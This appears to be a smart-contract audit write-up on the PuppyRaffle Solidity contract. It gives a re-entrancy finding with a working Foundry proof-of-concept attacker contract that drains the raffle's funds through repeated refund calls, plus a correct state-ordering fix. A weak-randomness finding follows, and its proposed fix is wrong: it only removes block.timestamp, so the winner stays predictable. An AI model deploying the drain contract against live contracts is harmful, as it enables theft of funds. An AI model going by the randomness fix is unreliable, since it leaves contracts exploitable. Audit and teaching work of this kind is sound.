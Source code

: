 ### S-1 Re-entrancy on refund

When `PuppyRaffle::refund` is called, eth is sent to player before the state accounting for the refund is updated. This allows for re-entrancy.

**Proof of Concept**

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
pragma experimental ABIEncoderV2;

import {Test, console} from "forge-std/Test.sol";
import {PuppyRaffle} from "../src/PuppyRaffle.sol";

contract PuppyRaffleTest is Test {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee = 1e18;
    address playerOne = address(1);
    address playerTwo = address(2);
    address playerThree = address(3);
    address playerFour = address(4);
    address feeAddress = address(99);
    uint256 duration = 1 days;

    function setUp() public {
        puppyRaffle = new PuppyRaffle(entranceFee, feeAddress, duration);
    }

    //
    // Attacks
    //
    function test_srw_reentrancy_attack_can_pull_all_funds_via_refund()
        public
        playersEntered
    {
        ReentrancyAttack attack = new ReentrancyAttack(
            puppyRaffle,
            entranceFee
        );

        vm.deal(address(attack), entranceFee);

        attack.enterRaffle();
        assertEq(address(attack).balance, 0);

        attack.attack();

        assertEq(address(puppyRaffle).balance, 0);
        assertEq(address(attack).balance, entranceFee * 5);
    }
}

contract ReentrancyAttack {
    uint256 s_indexOfPlayer;
    PuppyRaffle s_puppyRaffle;
    uint256 s_entranceFee;
    uint256 s_reentrancy_count = 4;

    constructor(PuppyRaffle puppyRaffle, uint256 entranceFee) {
        s_puppyRaffle = puppyRaffle;
        s_entranceFee = entranceFee;
    }

    function enterRaffle() public {
        address[] memory players = new address[](1);
        players[0] = address(this);

        s_puppyRaffle.enterRaffle{value: s_entranceFee}(players);
        s_indexOfPlayer = s_puppyRaffle.getActivePlayerIndex(address(this));
    }

    function attack() public {
        s_puppyRaffle.refund(s_indexOfPlayer);
    }

    receive() external payable {
        if (s_reentrancy_count > 0) {
            s_reentrancy_count -= 1;
            s_puppyRaffle.refund(s_indexOfPlayer);
        }
    }
}
```

**Mitigation**

```diff
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(
        playerAddress == msg.sender,
        "PuppyRaffle: Only the player can refund"
    );
    require(
        playerAddress != address(0),
        "PuppyRaffle: Player already refunded, or is not active"
    );

+   players[playerIndex] = address(0); // audit FOUND: reentrancy!!
    payable(msg.sender).sendValue(entranceFee);

-   players[playerIndex] = address(0); // audit FOUND: reentrancy!!
    emit RaffleRefunded(playerAddress);
}
```

### S-3 Weak RNG allows for miners to determine winner

Since RNG algorithm for `PuppyRaffle::selectWinner` relies on `block.timestamp`, a miner can quickly test the output of some transaction block orderings to attain a favourable result.


**Mitigation**

```diff
uint256 winnerIndex = uint256(
    keccak256(
-       abi.encodePacked(msg.sender, block.timestamp, block.difficulty)
+       abi.encodePacked(msg.sender, block.difficulty)
    )
) % players.length;
```
